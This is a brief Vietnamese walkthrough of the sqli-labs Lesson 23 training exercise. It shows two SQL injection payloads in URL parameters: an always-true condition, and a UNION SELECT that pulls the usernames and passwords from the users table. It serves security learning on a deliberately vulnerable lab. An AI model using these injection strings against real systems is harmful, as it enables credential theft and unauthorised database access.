




# Những việc làm được với lesson-23
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-23



Trông có vẻ nó giống bài 1. Ta hãy làm giống như thế nhé. Có vẻ như nó không có tác dụng gì. Dù thử rất nhiều trường hợp của các ký tự comment trong câu truy vấn nhưng nó vẫn không phải cấu trúc như thế này 



Ta hãy cho nó giá trị luôn đúng. Và ta thấy được ràng có thể sử dụng nó 
```
192.168.80.225/sqli-labs/Less-23/?id=' or '1' = '1
```


```
192.168.80.225/sqli-labs/Less-23/?id=' union select 1,group_concat(username),group_concat(password) from users where 1 or '1' = '1
```



ở đây ta dùng union với điều kiện luôn đúng như vậy ta có thể sử dụng được giống như bài 1 với cấu trúc của bài này rồi nhé 